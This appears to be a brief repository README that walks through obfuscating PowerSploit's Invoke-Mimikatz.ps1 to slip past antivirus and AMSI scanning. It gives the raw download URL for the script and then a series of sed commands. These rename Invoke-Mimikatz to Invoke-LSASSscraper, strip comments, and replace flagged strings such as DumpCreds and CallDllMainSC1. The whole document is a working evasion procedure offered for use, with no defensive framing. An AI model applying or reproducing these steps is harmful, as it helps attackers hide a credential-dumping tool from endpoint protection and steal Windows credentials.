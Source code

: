 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:                                        
  ```
  diff sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
  ```

- Step 3: remove all comments:
  sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

- Step 4: remove all comment indented
  sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

